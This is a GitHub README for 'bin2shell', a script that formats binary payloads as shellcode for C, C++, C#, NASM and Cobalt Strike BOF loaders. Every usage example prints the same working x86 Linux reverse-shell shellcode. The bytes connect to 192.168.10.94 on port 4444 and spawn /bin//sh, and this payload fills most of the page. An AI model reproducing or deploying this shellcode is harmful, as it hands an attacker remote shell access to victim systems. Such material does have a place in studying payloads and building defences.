 <div align="right">
  <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell&label=Visitors&countColor=%2337d67a" />
  </a>
</div>

# 🐚 bin2shell

## 📜 Description
A small script that generate shellcode from various low level languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Help](#-help)
- 📌 [Author](#-author)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h
  
  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2

usage: bin2shell.py [-h] -bin BIN [-c C] [-cpp CPP] [-cs CS] [-asm ASM] [-bof BOF]

Shellcode Generator (C,C#,CPP,ASM)

options:
  -h, --help  show this help message and exit
  -bin  BIN   Input shellcode binary file
  -c    C     Convert binart into C raw shellcode
  -cpp  CPP   Convert binary into CPP raw shellcode
  -cs   CS    Convert binary into C# raw shellcode
  -asm  ASM   Convert binary into (NASM) raw shellcode
  -bof  BOF   Convert cobalt strike BOF into raw shellcode

Example usage: python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt
```
## Usage
### Binary payload to C shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
### Binary payload to C++ shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cpp shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C++ Shellcode:

const char shellcode[] = {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C++ formatted shellcode to shell.txt
```
### Binary payload to C# shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cs shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C# Shellcode:

byte[] shellcode = new byte[] {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C# formatted shellcode to shell.txt
```
### BOF loader to shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -bof shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted BOF Loader Shellcode:

31dbf7e35343536a0289e1b066cd809359b03fcd804979f968c0a80a5e680200115c89e1b066505153b30389e1cd8052686e2f7368682f2f626989e3525389e1b00bcd801c3fe6e948000000

Saved BOF Loader formatted shellcode to shell.txt
```
### Binary payload to ASM shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -asm shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted ASM Shellcode:

section .text
global _start

_start:
        jmp shellcode

shellcode:
        db 0x31
        db 0xdb
        db 0xf7
        db 0xe3
        db 0x53
        db 0x43
        db 0x53
        db 0x6a
        db 0x02
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0xcd
        db 0x80
        db 0x93
        db 0x59
        db 0xb0
        db 0x3f
        db 0xcd
        db 0x80
        db 0x49
        db 0x79
        db 0xf9
        db 0x68
        db 0xc0
        db 0xa8
        db 0x0a
        db 0x5e
        db 0x68
        db 0x02
        db 0x00
        db 0x11
        db 0x5c
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0x50
        db 0x51
        db 0x53
        db 0xb3
        db 0x03
        db 0x89
        db 0xe1
        db 0xcd
        db 0x80
        db 0x52
        db 0x68
        db 0x6e
        db 0x2f
        db 0x73
        db 0x68
        db 0x68
        db 0x2f
        db 0x2f
        db 0x62
        db 0x69
        db 0x89
        db 0xe3
        db 0x52
        db 0x53
        db 0x89
        db 0xe1
        db 0xb0
        db 0x0b
        db 0xcd
        db 0x80

Saved ASM formatted shellcode to shell.txt
``` 
## 📌 Author
- [Facebook](https://facebook.com/l0n3m4n)
- [Twitter (X)](https://twitter.com/l0n3m4n)
- [Medium](https://medium.com/l0n3m4n)
- [Website](https://l0n3m4n.github.io)

## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). For fixing Bugs, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
